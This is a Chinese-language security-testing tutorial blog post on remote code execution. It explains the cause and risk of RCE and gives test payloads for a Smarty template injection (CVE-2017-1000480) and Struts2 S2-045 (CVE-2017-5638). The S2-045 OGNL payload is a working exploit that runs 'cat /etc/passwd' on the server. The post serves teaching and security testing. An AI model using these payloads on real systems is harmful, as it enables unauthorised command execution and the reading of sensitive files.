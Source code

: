 ```yaml
---
layout: post
title:  "《Web安全测试学习手册》- 远程代码执行"
date:   2018-03-22
categories: Web安全测试学习手册
permalink: /archivers/2018-03-22/1
description: "《Web安全测试学习手册》- 远程代码执行"
---
```


《Web安全测试学习手册》- 远程代码执行
<!--more-->

## 0x00 远程代码执行 - 介绍

### 1）什么是远程代码执行
 
远程命令执行 英文名称：**RCE remote code execution** ，简称**RCE**漏洞，是指用户通过浏览器提交执行命令，由于服务器端没有针对执行函数做过滤，导致在没有指定绝对路径的情况下就执行命令，可能会允许攻击者通过改变 $PATH 或程序执行环境的其他方面来执行一个恶意构造的代码。

### 2）远程代码执行的特点

远程代码执行是指攻击者可能会通过远调用的方式来攻击或控制计算机设备，无论该设备在哪里。

## 0x01 远程代码执行 - 风险等级

**高**

## 0x02 远程代码执行 - 原理

由于开发人员编写源码，没有针对代码中可执行的特殊函数入口做过滤，导致客户端可以提交恶意构造语句提交，并交由服务器端执行。命令注入攻击中WEB服务器没有过滤类似system(),eval()，exec()等函数是该漏洞攻击成功的最主要原因。

## 0x03 远程代码执行 - 常见场景

* 使用了危险函数的Web应用
* 低版本的Java语言Struts框架

## 0x04 测试方案

### PHP中常见场景 - 模板引擎代码执行

Smarty简介

> Smarty是一个PHP的模板引擎。更明确来说，它可以帮助开发者更好地 分离程序逻辑和页面显示。最好的例子，是当程序员和模板设计师是不同的两个角色的情况，而且 大部分时候都不是同一个人的情况。
> 
> CVE-ID : CVE-2017-1000480

产生原因：由于未对用户的输入点进行过滤，导致经过eval函数，造成代码执行

测试Payload：

```
*/phpinfo();/*
```



![0x00](http://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-04-16/0x00.png)

### Java Struts2 （S2-045）

Struts 简介

> Struts2是一个基于MVC设计模式的Web应用框架，它本质上相当于一个servlet，在MVC设计模式中，Struts2作为控制器(Controller)来建立模型与视图的数据交互。Struts 2是Struts的下一代产品，是在 struts 1和WebWork的技术基础上进行了合并的全新的Struts 2框架。
> CVE-ID : CVE-2017-5638

产生原因：由于未对用户输入点进行过滤，被带入ErrorMessage，当做OGLN表达式解析，造成代码执行

测试Payload：

```
%{(#nikenb='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='cat /etc/passwd').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

![0x01](http://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-04-16/0x01.png)

## 0x05 修复方案

升级插件、框架新版本
